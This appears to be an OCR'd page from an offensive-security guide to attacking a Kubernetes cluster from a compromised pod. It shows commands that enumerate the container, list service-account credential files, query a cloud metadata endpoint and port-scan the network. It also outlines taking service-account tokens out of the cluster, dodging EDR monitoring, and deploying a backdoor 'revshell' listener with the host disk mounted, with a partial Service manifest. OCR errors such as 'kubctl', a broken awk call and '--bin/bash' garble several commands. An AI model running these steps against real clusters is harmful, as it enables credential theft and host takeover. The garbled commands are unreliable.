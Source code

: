 **Run an Ubuntu-based Container Image**

```
kubctl exec -it $(kubectl get pods | a'k '{ print '1}' | grep -v NAME | grep bash) --bin/bash

# Get disto info
cat /etc/lsb-release

# System info
uname -a

# List login credential material
ls -la /var/run/secrets/Kubernetes.io/serviceaccount/

# Install nmap and netcat
apt update -y && apt install curl nmap ncat -y
```

**Enumeration on Ubuntu Container**

```
# Query for local IPv4 address
curl http://<ip>/latest/meta-data/local-ipv4

# Scan for open ports
nmap -n -p1-65535 <Local IP>

# Scan using NSE scripts
nmap -sV -n --script=http-headers,http-title <Local IP> -p1-65535
```

**Attack API Server**

There are two ways to approach this:

* We can move our tools onto the local container. The downside is that we may be caught by any monitoring tools installed in the cluster, such as EDR tools or tools speciﬁc to Kubernetes Admission Controller scanning or Kubernetes Container scanning. Sysdig has an open source agent that can provide this type of telemetry. The tools generally will understand how to use the existing credentials in this case.
* We can move the tokens outside the cluster and then attach to our clusters remotely using those keys. This is done by using the /var/run/secrets/kubernetes.io/serviceaccount/token, ca.crt, and the IP or hostname of the server.

**Fist Option**

This attack will do the following:

1. Install a container node with a backdoor listener that executes a Bash shell.
2. Start it with all local privileges and then mount the host disk to the local system.

**Files Needed:**

**ncat-svc.yml** This ﬁle exposes the port to the cluster.

```
apiVersion: v1
kind: Service
metadata:
  name: revshell
  labels:
    run: revshell
spec:
  ports:
  - port: 9999
    protocol: TCP
  selector:
    run: revshell
```
